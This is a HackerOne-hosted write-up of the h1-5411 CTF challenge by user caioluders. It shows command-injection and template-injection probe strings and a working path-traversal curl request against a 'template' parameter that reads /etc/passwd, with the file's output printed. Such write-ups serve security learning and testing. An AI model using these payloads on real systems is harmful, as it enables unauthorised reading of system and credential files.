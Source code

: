 # Flag WriteUp

## Report Details
- **Report ID**: 415202
- **URL**: https://hackerone.com/reports/415202
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-09-27T08:27:35.942Z
- **Disclosed**: 2018-10-22T17:06:23.721Z

## Reporter
- **Username**: caioluders
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-5411-ctf

## Vulnerability Information
Hello everyone , here is my writeup :

## Intro
First I decoded the QR Code of the [tweet](https://twitter.com/Hacker0x01/status/1045075889120268289) , decoding to `Here you go: 68747470733a2f2f68312d353431312e68316374662e636f6d` . Decoding the hex value we get the challenge URL : https://h1-5411.h1ctf.com

## Path traversal + local file read

On the website I found two important endpoints : /generate.php and /memes.php . At the generate.php I started doing some "manual fuzzing" trying some command injection, like `;)'";|id`, and template injections like `{{7*7}}` but nothing seemed to work. 
Analyzing the requests I see that the `template` parameter value is a filename , so I try a path traversal with `../../../../../../../etc/passwd` and I get rick rolled :'( But changing the parameter `type` to `text` works ! And I got the first vulnerability .

Path Traversal in `template` parameter
```
$ curl 'https://h1-5411.h1ctf.com/api/generate.php' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:64.0) Gecko/20100101 Firefox/64.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: https://h1-5411.h1ctf.com/generate.php' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=xxx' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data 'template=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&type=text&top-text=a&bottom-text=b'
{"meme_path":"..\/data\/memes\/1538028501-288459b55a1a4ed8bd893f971f758c2f5a6e0cae2c513d6ad9d971cd4a401f8b.txt"}
```
/etc/passwd output
```
$ curl 'https://h1-5411.h1ctf.com/data/memes/1538028501-288459b55a1a4ed8bd893f971f758c2f5a6e0cae2c513d6ad9d971cd4a401f8b.txt'
  A

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
```